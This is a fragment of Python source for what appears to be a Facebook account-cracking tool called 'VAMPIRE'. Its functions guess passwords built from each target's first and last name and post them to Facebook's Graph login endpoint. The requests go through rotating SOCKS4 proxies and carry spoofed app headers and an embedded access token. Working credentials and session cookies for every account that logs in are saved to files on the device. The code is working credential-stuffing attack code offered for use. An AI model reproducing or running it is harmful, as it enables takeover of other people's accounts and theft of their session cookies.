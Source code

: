     print(f' {red}[{white}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{white}●{red}]{green} TOTAL OK {white}:{green} %s' % str(len(oks)))
    print(f' {red}[{white}●{red}]{green} TOTAL CP {white}:{red} %s' % str(len(cps)))
    print(f'\r {red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{white}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#---------FILE M1
try:
    def __MTDONEE__(sid, name, psw,tl):
        try:
            global oks,cps,loop,xvx
            abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
            sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                prox=random.choice(xvx)
                bro={"http":"socks4://"+prox}
                head = {'User-Agent': f'{F1}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
                data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
                po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
                q = json.loads(po)
                if 'session_key' in q:
                     cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                     print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M1.txt','a').write(sid+'|'+ps+'\n')
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M1-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                     oks.append(sid)
                     break
                elif 'www.facebook.com' in q:
                     print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:continue
            loop+=1
        except Exception as e:time.sleep(30)
#---------FILE M2
    def __MTDTWOO__(sid, name, psw,tl):
        try:
            global oks,cps,loop,xvx
            abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
